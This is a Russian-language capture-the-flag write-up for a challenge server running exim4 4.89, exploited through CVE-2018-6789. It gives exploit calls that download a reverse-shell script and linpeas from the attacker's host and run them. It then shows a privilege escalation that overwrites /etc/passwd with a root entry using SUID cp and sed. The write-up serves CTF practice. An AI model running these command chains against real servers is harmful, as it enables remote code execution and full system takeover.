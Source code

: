 # Давно всем известная уязвимость

Кажется почта сконфигурирована некорректно

# WriteUp

Засканив nmap`ом мы обнаруживаем, что на сервере крутится exim4 версии 4.89.

Под который давно имеется exploit (CVE-2018-6789)|

Подробнее можно почитать [Команда упасть](https://xakep.ru/2018/05/07/exim-4-exploit/)

Тут приложен [exploit](exp.py)

Дополнительный файл с [шеллом](shell3)

Последовательность использования команд в эксплоите

1. **threaded_brute_force(0x10)** - после успешного нахождения смещения его нужно указать в следующих командах
2. **execute_command(0x3ae(заменить на ваше смещение), "/usr/bin/wget -O /tmp/s3 http://ваш ip-адрес/shell3")**
<br>**execute_command(0x3ae(заменить на ваше смещение), "/usr/bin/wget -O /tmp/linpeas.sh http://ваш ip-адрес/linpeas.sh")**
<br>**execute_command(0x3ae(заменить на ваше смещение), "/bin/bash /tmp/s3")** - тут установиться **reverse tcp** (соединение может обрываться, необходимо перезапускать данную команду)

Не забываем поднять у себя **http** сервер, где будут лежать **shell** и **linpeas**


3. Последовательно выполняем данные команды

**cd /tmp && sh linpeas.sh **

**linpeas** - выведет нам, что на командах **cp** и **sed** есть **suid** права.

**cp /etc/passwd . && var="root:\$1\$bitch4\$xr74XTCV39\/WpLloi2f.50:0:0:root:\/root:\/bin\/bash" && sed -i "1s/.\*/$var/" passwd && cp passwd /etc/passwd**

**echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py**
<br>**python /tmp/asdf.py**

**su root**

Флаг лежит в директории **/root**

**/root/.fl4g**


# Flag
RDGCTF{kakoy-to_flag}